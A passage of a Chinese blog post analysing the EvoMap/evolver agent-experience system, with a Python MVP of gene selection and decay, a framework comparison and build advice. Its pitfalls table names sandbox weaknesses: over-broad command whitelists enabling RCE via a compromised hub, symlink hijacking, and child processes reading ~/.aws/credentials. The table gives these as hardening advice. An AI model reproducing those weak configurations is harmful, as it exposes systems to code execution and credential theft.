| 表观遗传标记（带衰减） | ✅ **必** | 没有它失败经验无法累积（这正是论文的核心增量） |
| 沙箱 + 命令白名单 | ✅ **必** | 一旦接外部 Hub 就是 RCE 面 |
| EvoMap Hub / A2A 协议 | 🔸 **可省** | 纯网络层，不影响核心机制 |
| WebUI / Proxy mailbox | 🔸 **可省** | 工程便利 |
| 多平台 `setup-hooks` | 🔸 **可省** | 集成层 |
| 混淆 / 商业化封装 | ❌ **不需要** | 反而降低可审计性 |

下面是**从 Evolver 的 `gene.js` + `capsule.js` + `selector.js` + `epigenetics.js` 抽离出来的 200 行 Python MVP**，跑一遍就能看到完整闭环：

```python
"""
Gene MVP —— 从 EvoMap/evolver 的 src/gep/schemas/gene.js + capsule.js 抽离的核心机制复刻。

复刻的 4 个原语：
  1. Gene 作为"控制密集型"表示（signals_match -> strategy -> validation 三段式）
  2. Capsule 携带执行证据（outcome / blast_radius / execution_trace）
  3. Selector 按信号匹配 + 打分选最优 Gene
  4. Epigenetics：Gene 随成功/失败被"标记"（strengthen / weaken），带衰减

运行： python3 evolver_mvp.py
"""

import json
import hashlib
from dataclasses import dataclass, field, asdict
from typing import Any

# ─────────────────────────────────────────────────────────────
# 原语 1：Gene —— 控制密集型的"策略基因"
#   signals_match  : 什么信号下这条 Gene 适用（触发器）
#   strategy       : 具体怎么做（有序步骤，控制在 ~28 行内）
#   validation     : 怎么证明做对了（可执行断言）
#   constraints    : 硬边界（最多动几个文件 / 禁碰哪些路径）
# ─────────────────────────────────────────────────────────────

VALID_CATEGORIES = ["repair", "optimize", "innovate", "explore"]


@dataclass
class Gene:
    type: str = "Gene"
    id: str = ""
    category: str = "optimize"
    signals_match: list = field(default_factory=list)
    strategy: list = field(default_factory=list)
    validation: list = field(default_factory=list)
    constraints: dict = field(
        default_factory=lambda: {"max_files": 20, "forbidden_paths": [".git", "node_modules"]}
    )
    preconditions: list = field(default_factory=list)
    summary: str = ""
    # 表观遗传标记：成功加一格，失败减一格，带自然衰减
    epigenetic_marks: list = field(default_factory=list)
    learning_history: list = field(default_factory=list)
    anti_patterns: list = field(default_factory=list)

    def __post_init__(self):
        if self.category not in VALID_CATEGORIES:
            self.category = "optimize"
        if not self.id:
            self.id = "gene_" + hashlib.sha256(
                json.dumps(asdict(self), sort_keys=True, ensure_ascii=False).encode()
            ).hexdigest()[:16]

    def validate(self):
        if self.type != "Gene":
            raise ValueError("type must be Gene")
        if not self.id:
            raise ValueError("id required")
        if self.category not in VALID_CATEGORIES:
            raise ValueError("bad category")
        if not isinstance(self.strategy, list):
            raise ValueError("strategy must be list")
        return True


# ─────────────────────────────────────────────────────────────
# 原语 2：Capsule —— 带执行证据的"成功胶囊"
#   没有 execution_trace 的 Capsule 只能算失败（evidence-first 原则）
# ─────────────────────────────────────────────────────────────


@dataclass
class Capsule:
    type: str = "Capsule"
    id: str = ""
    trigger: list = field(default_factory=list)
    gene: dict = field(default_factory=dict)
    summary: str = ""
    confidence: float = 0.0
    blast_radius: dict = field(default_factory=lambda: {"files": 0, "lines": 0})
    outcome: dict = field(default_factory=lambda: {"status": "failed", "score": 0.0})
    success_streak: int = 0
    execution_trace: list = field(default_factory=list)
    derivation_tokens: dict = field(default_factory=lambda: {
        "input_tokens": 0, "output_tokens": 0, "total_tokens": 0, "basis": "measured"})

    def validate(self):
        if self.type != "Capsule":
            raise ValueError("type must be Capsule")
        if not self.id:
            raise ValueError("id required")
        if self.outcome.get("status") not in ("success", "failed"):
            raise ValueError("bad outcome status")
        return True


# ─────────────────────────────────────────────────────────────
# 原语 3：Selector —— 按信号打分选最优 Gene
#   打分 = 信号命中率 * 权重 + 表观遗传强度 + 学习历史惩罚
# ─────────────────────────────────────────────────────────────


def score_gene(gene: Gene, signals: list) -> float:
    """打分 = 覆盖率 + 精确率 + 表观遗传强度 - 反模式惩罚。

    只看覆盖率会让"signals_match 写得很宽"的 Gene 永远霸榜
    （例如 signals_match=['perf_bottleneck','log_error','missing_validation']
    命中 2/3 也是 0.667，而只匹配 1 个信号的 Gene 命中 1/1 是 1.0）。
    所以同时算精确率：命中的信号占"实际观测信号"的比例。
    """
    if not gene.signals_match:
        return 0.0
    hits = sum(1 for s in signals if s in gene.signals_match)
    if hits == 0:
        return 0.0
    coverage = hits / len(gene.signals_match)   # 覆盖率：Gene 声明的触发器命中多少
    precision = hits / len(signals)             # 精确率：观测信号里有多少被解释
    # 表观遗传强度：成功次数 - 失败次数，归一到 [-1, 1]
    strengths = [m.get("delta", 0) for m in gene.epigenetic_marks]
    epi = (sum(strengths) / len(strengths)) if strengths else 0.0
    penalty = 0.1 * len(gene.anti_patterns)
    return round(coverage + precision + epi - penalty, 4)


def select_gene(genes: list, signals: list) -> tuple:
    scored = sorted(((score_gene(g, signals), g) for g in genes), key=lambda x: -x[0])
    scored = [(s, g) for s, g in scored if s > 0]
    if not scored:
        return 0.0, None
    return scored[0]


# ─────────────────────────────────────────────────────────────
# 原语 4：Epigenetics —— Gene 的标记 / 衰减
#   成功 -> strengthen(+1)，失败 -> weaken(-1)
#   每次更新都按 half-life 把旧标记衰减一半（防止一次成功永久霸榜）
# ─────────────────────────────────────────────────────────────


def apply_epigenetic_mark(gene: Gene, success: bool, half_life: float = 3.0, max_marks: int = 12):
    for m in gene.epigenetic_marks:
        m["delta"] = m["delta"] * (0.5 ** (1.0 / half_life))
    delta = 1.0 if success else -1.0
    gene.epigenetic_marks.append({
        "delta": delta,
        "reason": "success" if success else "failure",
    })
    if len(gene.epigenetic_marks) > max_marks:
        gene.epigenetic_marks = gene.epigenetic_marks[-max_marks:]
    gene.learning_history.append({"delta": delta})
    if not success:
        gene.anti_patterns.append(gene.summary[:60])


# ─────────────────────────────────────────────────────────────
# 原语 5（额外）：Capsule 只能由真实执行痕迹生成
#   这是 EvoMap "evidence-first" 的关键：不许凭空造成功记录
# ─────────────────────────────────────────────────────────────


def make_capsule(gene: Gene, execution_trace: list, score: float, files: int, lines: int) -> Capsule:
    ok = bool(execution_trace) and score > 0
    return Capsule(
        id="cap_" + hashlib.sha256(
            (gene.id + json.dumps(execution_trace, ensure_ascii=False)).encode()
        ).hexdigest()[:12],
        trigger=list(gene.signals_match),
        gene={"id": gene.id, "summary": gene.summary},
        summary=gene.summary,
        confidence=min(1.0, score),
        blast_radius={"files": files, "lines": lines},
        outcome={"status": "success" if ok else "failed", "score": score},
        success_streak=1 if ok else 0,
        execution_trace=execution_trace,
        derivation_tokens={"input_tokens": 1200, "output_tokens": 340, "total_tokens": 1540,
                           "basis": "measured"},
    )


# ═════════════════════════════════════════════════════════════
# Demo
# ═════════════════════════════════════════════════════════════


def build_library():
    return [
        Gene(
            id="gene_fix_missing_guard",
            category="repair",
            signals_match=["log_error", "missing_validation"],
            strategy=[
                "定位缺失校验的函数入口",
                "补一条 fail-closed 断言",
                "跑 validation 确认修复生效",
            ],
            validation=["node test/guard.test.js"],
            summary="补齐缺失的 fail-closed 校验",
        ),
        Gene(
            id="gene_cache_prefix",
            category="optimize",
            signals_match=["perf_bottleneck", "log_error"],
            strategy=[
                "给热点查询加前缀缓存",
                "缓存键包含模型版本号",
            ],
            validation=["node test/cache.test.js"],
            summary="热点查询加前缀缓存",
        ),
        Gene(
            id="gene_split_prompt",
            category="innovate",
            signals_match=["perf_bottleneck"],
            strategy=["把长 prompt 拆成两段"],
            validation=["node test/prompt.test.js"],
            summary="拆分超长 prompt",
        ),
    ]


def main():
    print("=" * 66)
    print("Gene MVP —— 策略基因的选择、标记与胶囊化")
    print("=" * 66)

    genes = build_library()
    signals = ["log_error", "missing_validation", "perf_bottleneck"]

    print(f"\n[1] 库中 {len(genes)} 条 Gene，观测到信号 {signals}")
    for g in genes:
        print(f"    {g.id:<26} category={g.category:<10} score={score_gene(g, signals)}")

    best_score, best = select_gene(genes, signals)
    print(f"\n[2] Selector 选中: {best.id}  (score={best_score})")
    print(f"    策略步骤 {len(best.strategy)} 条，validation {best.validation}")

    print("\n[3] 表观遗传：先失败 2 次，再成功 1 次")
    for i in range(2):
        apply_epigenetic_mark(best, success=False)
        print(f"    第{i+1}次失败 -> marks={[(round(m['delta'], 3), m['reason']) for m in best.epigenetic_marks]}")
    apply_epigenetic_mark(best, success=True)
    print(f"    第3次成功 -> marks={[(round(m['delta'], 3), m['reason']) for m in best.epigenetic_marks]}")
    print(f"    重新打分: {score_gene(best, signals)}  (原 {best_score})")

    print("\n[4] Capsule 化 —— 无执行痕迹不许记成功")
    cap_bad = make_capsule(best, execution_trace=[], score=0.9, files=2, lines=30)
    cap_ok = make_capsule(best, execution_trace=["node test/guard.test.js -> PASS"],
                           score=0.9, files=2, lines=30)
    print(f"    无痕迹  -> outcome={cap_bad.outcome['status']}  streak={cap_bad.success_streak}")
    print(f"    有痕迹  -> outcome={cap_ok.outcome['status']}  streak={cap_ok.success_streak}")
    print(f"    blast_radius={cap_ok.blast_radius}  tokens={cap_ok.derivation_tokens['total_tokens']}")

    print("\n[5] 约束检查（Gene.constraints）")
    print(f"    {best.constraints}")
    print(f"    anti_patterns 累积: {len(best.anti_patterns)} 条")

    print("\n[6] 全部断言")
    for g in genes:
        g.validate()
    cap_ok.validate()
    print("    ✅ 3 条 Gene + 1 条 Capsule schema 校验通过")
    print(f"\n最终选中: {best.id}  score={score_gene(best, signals)}")


if __name__ == "__main__":
    main()
```

**实际运行输出**（本机实测，逐行一致）：

```text
==================================================================
Gene MVP —— 策略基因的选择、标记与胶囊化
==================================================================

[1] 库中 3 条 Gene，观测到信号 ['log_error', 'missing_validation', 'perf_bottleneck']
    gene_fix_missing_guard     category=repair     score=1.6667
    gene_cache_prefix          category=optimize   score=1.6667
    gene_split_prompt          category=innovate   score=1.3333

[2] Selector 选中: gene_fix_missing_guard  (score=1.6667)
    策略步骤 3 条，validation ['node test/guard.test.js']

[3] 表观遗传：先失败 2 次，再成功 1 次
    第1次失败 -> marks=[(-1.0, 'failure')]
    第2次失败 -> marks=[(-0.794, 'failure'), (-1.0, 'failure')]
    第3次成功 -> marks=[(-0.63, 'failure'), (-0.794, 'failure'), (1.0, 'success')]
    重新打分: 1.3254  (原 1.6667)

[4] Capsule 化 —— 无执行痕迹不许记成功
    无痕迹  -> outcome=failed  streak=0
    有痕迹  -> outcome=success  streak=1
    blast_radius={'files': 2, 'lines': 30}  tokens=1540

[5] 约束检查（Gene.constraints）
    {'max_files': 20, 'forbidden_paths': ['.git', 'node_modules']}
    anti_patterns 累积: 2 条

[6] 全部断言
    ✅ 3 条 Gene + 1 条 Capsule schema 校验通过

最终选中: gene_fix_missing_guard  score=1.3254
```

**跑完这个 MVP，最该记住的是第 [3] 步那个反直觉的数：**

失败 2 次 + 成功 1 次之后，Gene 的分数从 **1.6667 掉到 1.3254**。

**一次成功没能把两次失败抵消掉。** 这是衰减模型的直接后果——旧标记每次更新乘 0.5^(1/3)，两次失败留下的 -1.0 和 -0.794 还在衰减通道里。

这个特性在生产里的含义很实在：**一条 Gene 失败过，就在它身上留下一个需要被后续成功"赚回来"的负债。** 这跟"失败了就删掉"是完全不同的哲学——**保留失败痕迹，但让它可衰减、可被覆盖。**

---

## 七、横向对比：三种经验表示哲学

讲完 Evolver 自身，必须把它放到坐标系里。我挑了三个真正可比的对手——**都是"让 Agent 从自己的历史里变强"的方案，但哲学差异极大**。

### 7.1 对比表

| 维度 | **EvoMap/evolver**<br>Gene 协议 | **Anthropic Claude Code**<br>Skills + CLAUDE.md | **penguin-harness**<br>Continual-Learning 蒸馏 |
|---|---|---|---|
| **经验的载体** | 结构化 Gene 对象（JSON schema） | Markdown 文档（SKILL.md） | Markdown 文档 + 蒸馏流水线 |
| **知识的形态** | 控制密集：触发器 + 步骤 + 断言 + 边界 | 叙述性：给人看的 SOP | 叙述性 + 条件 CLIP |
| **证据怎么来** | `execution_trace` 必须逐条覆盖 `validation` | 无强制绑定 | 依赖蒸馏者判断 |
| **失败怎么表达** | `epigenetic_marks`（带符号增量）+ `anti_patterns`（蒸馏警告） | 靠 Agent 自己下次读到 | 条件化 CLIP 片段 |
| **失败能否影响未来** | ✅ 直接改 Selector 打分 | ❌ 只能靠上下文重读 | ⚠️ 靠"下次加载时恰好命中" |
| **可审计性** | ✅ 三件套（Gene/Capsule/Event） | ⚠️ 只有文件历史 | ⚠️ 文件历史 |
| **能共享吗** | ✅ Hub + A2A + SHA-256 内容寻址 | ✅ 手动复制 | ⚠️ 手动 |
| **论文级证据** | ✅ 4,590 次对照试验 | ❌ 无 | ❌ 无 |

### 7.2 设计差异的三个关键点

**差异一：知识能不能"闭环"。**

Claude Code 的 SKILL.md 是**给模型读的文档**，模型读完后自行决定怎么用。链条是：`文件 → 上下文 → 模型推理 → 动作`。**中间没有可校验的接缝。**

Gene 的链条是：`Gene → 提示词 → 动作 → validation 断言 → execution_trace → Capsule`。**每一环都有可检查的接口。** 尤其 `validation` → `execution_trace` 的逐条覆盖检查，让"策略是否真的被执行过"变成一个布尔判定，而不是一次人工阅读。

**差异二：失败是"噪声"还是"资产"。**

大多数 Agent 框架把失败日志当**要清理的东西**（翻页、压缩、丢弃）。Evolver 把失败做成**结构化、带符号、带衰减的标记**，直接进入打分函数。

这是两种世界观：
- 传统：`失败 → 记录 → 也许下次有用（希望如此）`
- Evolver：`失败 → 打标记（-1，带衰减）→ 直接压低未来被选中的概率`

**第三种更诚实，因为"也许有用"在实践中等于"没用"。**

**差异三：表示形式是不是一阶因素。**

论文最狠的一条是：**"reattaching documentation-oriented material usually weakens rather than improves it"**——把文档材料重新贴回 Gene 上，通常会削弱它。

这直接挑战了"写得越详细越好"的直觉。但要注意论文的**适用范围限定**——论文自己写在 `skill2gep.js` 的注释里：

```javascript
// NOTE: The paper validates Gene as a control-dense interface on 45 scientific
// code-solving scenarios with Gemini 3.1 Pro/Flash Lite. Generalization to other
// agent domains (web ops, long tool chains, multi-agent negotiation, etc.) is an
// explicit assumption of this tool, not a proven result.
```

以及代码里硬编码发出去的 rationale 文本：

```javascript
const RATIONALE_TEXT = ''
  + 'Emitted both the human-facing Skill and the machine-facing GEP asset(s). '
  + 'In the paper\'s domain (45 scientific code-solving scenarios, Gemini 3.1 '
  + 'Pro/Flash Lite; ' + 'Wang, Ren, Zhang, arXiv:2604.15097'
  + '), Gene-as-control-interface outperforms procedural SKILL.md. '
  + 'Generalization to other domains is an assumption of this tool, not a '
  + 'proven result; outcome quality depends on the source Skill and on real '
  + 'execution evidence.';
```

**"Generalization to other domains is an assumption of this tool, not a proven result."** —— **工具自己把论文的适用边界写进了每一份资产的元数据里。**

这是我在这篇文章里见到的**最值得学的一条工程规范**：当你的实现建立在一篇有明确 domain 限定的论文上时，**把这个限定传播到产物里，而不是藏在自己的脑子里**。用户读到的是"这个结论在科学代码求解域验证过，其他域是假设"。

---

## 八、优缺点分析

按 CLAUDE.md 要求的结构来。

### 8.1 左侧维度：架构简洁性 / 扩展性 / 易用性

| 维度 | 评价 | 依据 |
|---|---|---|
| **架构简洁性** | ⚠️ 中等 | 三件套分工清晰，但 `src/gep/` 有 86 个文件，核心逻辑（selector / solidify / mutation / policyCheck）**全部混淆**，可审计性打折 |
| **扩展性** | ✅ 好 | 6 个平台 `setup-hooks`；Hub 侧可扩展协议（`feature_flag_update` 通过 mailbox 推）；Gene 的 `routing_hint` / `tool_policy` 预留了 Rust 侧 EvoX 集成 |
| **易用性** | ✅ 好 | `npm install -g @evomap/evolver` + `evolver` 就跑；**核心功能完全离线**（README 明写）；不需要连 Hub |

### 8.2 右侧维度：性能 / 复杂度 / 维护性

| 维度 | 评价 | 依据 |
|---|---|---|
| **性能** | ✅ 好 | 论文报告了"tokens rise then fall"特征——推理被压缩进可复用 Gene 后，token 成本先升后降 |
| **复杂度** | ⚠️ 偏高 | 混淆 + GPL-3.0 + 即将转 source-available（README 里的 Notice 段落）；未来版本可能不再免费可读 |
| **维护性** | ✅ 好 | 222 个测试文件 vs 203 个源文件，测试比源码还多；注释密度极高且解释"为什么"而非"是什么" |

### 8.3 一句话总结

**Evolver 用"可审计性换了一部分可读性"，但换得很划算**：核心算法（selector 打分、solidify 流程）你读不到，但**它的接口（Gene/Capsule schema）完全公开**，而 schema 恰恰是"如何表示经验"这个问题的核心答案。

**代码混淆保护的是实现，不是思想。** 而思想部分，通过 arXiv 论文 + 公开 schema + 未混淆的 `skill2gep.js` / `sandboxExecutor.js`，已经完整可学。

---

## 九、从零搭建启示

如果我要自己搭一套"Agent 经验进化系统"，**最小可行实现是什么？**

### 9.1 三步走

**第一步（1 天）：先做 Capsule，不要做 Gene。**

很多人会先做"知识库"，第一步就想着怎么抽取知识点。**错。**

先做 **Capsule**——也就是"一次执行 + 它的证据"。原因很简单：**没有 Capsule 就没有 baseline，你根本不知道后面抽出来的 Gene 有没有用。**

具体：
- 定义 `execution_trace`（执行了哪些命令、结果是什么）
- 定义 `outcome`（status + score）
- 定义 `blast_radius`（动了几个文件几行）
- **默认 `status = failed`**

**第二步（2-3 天）：做 Gene schema，但先别做自动蒸馏。**

手写 10-20 条 Gene。字段照抄 Evolver 的：

```python
signals_match   # 触发器
strategy        # 步骤（≤ 28 行）
validation      # 可执行断言
constraints     # 硬边界
anti_patterns   # 蒸馏出的警告
```

**手写阶段的价值是让你感受到"哪些字段真的会用到"。** 我猜大部分人会发现 `strategy` 用得最多，`preconditions` 几乎不用，`routing_hint` 完全用不上——**然后你就可以砍掉它们。**

**第三步（1 周）：做 Selector + 表观遗传，然后才是自动化。**

Selector 的打分函数先写最朴素的版本（命中即加分），跑一段时间后再加精度/覆盖率的组合。表观遗传的衰减半衰期**先设大一点**（比如 10），等你真的看到"一次成功永久霸榜"再调小。

### 9.2 踩坑预警（7 条）

| # | 坑 | 症状 | 解法 |
|---|---|---|---|
| 1 | **把失败当噪声清掉** | Agent 反复踩同一个坑 | 失败做成带符号标记，直接进打分函数 |
| 2 | **成功不衰减** | 一条 Gene 成功后永久霸榜，新 Gene 出不来 | 半衰期模型，旧标记每次更新打折 |
| 3 | **`allow_only: []` 语义陷阱** | 空数组 = "允许零个工具"，Agent 静默瘫痪 | 归一化时丢弃空列表；**永远显式声明 null 而非空数组** |
| 4 | **抽取时只取第一个章节** | 治理尾巴（人工闸门、回滚、输出契约）被系统性丢弃 | 取所有匹配章节，按文档顺序拼接 |
| 5 | **白名单开太宽** | `npm` / `npx` 在白名单里 = Hub 被攻陷即全网 RCE | 按"最小必要"开；`npx vitest` → `node node_modules/vitest/vitest.mjs` |
| 6 | **沙箱目录被软链劫持** | 验证命令在攻击者目录里跑 | `lstat` 拒软链 + 校验 `uid` 归属 + `chmod 0700` 自愈 |
| 7 | **只清环境变量就以为安全** | 子进程读到 `~/.aws/credentials` | HOME/TMPDIR 重定向到空目录，但**真正的闸门是白名单** |

### 9.3 一条可以直接抄的规范

如果你的项目建立在某篇论文上，**把论文的适用边界写进产物元数据**。

Evolver 在每一份 Gene 的 rationale 字段里硬编码了这句话：

> Generalization to other domains is an assumption of this tool, not a proven result.

这不是免责声明，**这是数据完整性的一部分**。它让下游用户（和未来的你）知道：这条经验的置信度上限在哪里。

---

## 十、总结与行动建议

回到开篇那句话：

> **经验复用的核心难题，不是"如何提供更多经验"，而是"如何把经验编码成一个紧凑的、面向控制的、可进化的对象"。**

Evolver 用三件套回答了这个问题：

| 对象 | 回答了哪一问 |
|---|---|
| **Gene** | 经验**怎么表示**——触发器 + 步骤 + 断言 + 边界，四段式 |
| **Capsule** | 经验**凭什么可信**——执行痕迹逐条覆盖断言，无证据不算成功 |
| **EvolutionEvent** | 经验**怎么被审计**——只追加账本，选中理由留痕 |

论文的 4,590 次对照试验说明：**换成 Gene 之后，CritPt 上配对基座模型从 9.1% → 18.57%、17.7% → 27.14%。** 这不是"多写点文档"的收益，这是**表示形式本身**的收益。

### 给三类读者的行动建议

**如果你在做 Agent 框架 / Harness：**
先别急着加"自动从历史里学习"功能。先问一个问题：**你的经验表示形式里，哪部分是"模型自己能学会的"，哪部分是"外部必须编码的"？** 如果答案含糊，说明你还没有 Gene，只有 Skill。Evolver 的 `MAX_STRATEGY_STEPS = 28` 和"治理尾巴不能丢"这两条注释，是最好的自检标尺。

**如果你在做 Agent 安全：**
去读 `src/gep/validator/sandboxExecutor.js` 的 507 行。它把 GHSA-jxh8-jh77-xh6g 这种"Hub 被攻陷 → 全网 validator RCE"的漏洞模型讲透了。**核心心法只有一句：白名单是真正的闸门，环境变量只是卫生措施。**

**如果你在做自进化研究：**
注意区分两类自进化。Harness² 那类改的是**提示词表面**（Propose-Probe-Compose 递归改写 8 大组件），Evolver 这类改的是**经验表示**（把经验从文档形态压成基因形态）。前者的关键变量是"有没有执行证据"，后者的关键变量是"表示形式是不是一阶因素"。**两者可以叠加，但不能互相替代。**

### 最后一句

Evolver 的 README 里有一句很克制的话：

> Evolver is a prompt generator, not a code patcher.

**这可能是整个项目最值得学的一句工程判断。**

在一个所有人都想"让 AI 自己改代码"的时刻，选择做一个**只输出受协议约束的提示词 + 一本可审计的账本**的工具，需要克制，也需要清醒的边界感。

**给 AI 装上方向盘容易，给 AI 装上仪表盘和行车记录仪，才是让它能自己跑长途的前提。**

---

## 参考资料

- [EvoMap/evolver GitHub 仓库](https://github.com/EvoMap/evolver)
- [论文《From Procedural Skills to Strategy Genes: Towards Experience-Driven Test-Time Evolution》arXiv:2604.15097](https://arxiv.org/abs/2604.15097)（Junjie Wang, Yiming Ren, Haoyang Zhang）
- [EvoMap 官方站与 Wiki](https://evomap.ai)
- [GHSA-jxh8-jh77-xh6g 相关修复说明](https://github.com/EvoMap/evolver)（见 `src/gep/validator/sandboxExecutor.js` 注释）
- 关键源码文件：`src/gep/schemas/gene.js`、`src/gep/schemas/capsule.js`、`src/gep/skill2gep.js`、`src/gep/validator/sandboxExecutor.js`、`SKILL.md`
- 相关阅读：[《Harness²》深度解析：让智能体自己改自己的说明书](https://xuqi2024.github.io/2026/10/22/2026-10-22-harness2-recursive-agent-harnessing-deep-dive/)（本站 2026-10-22）
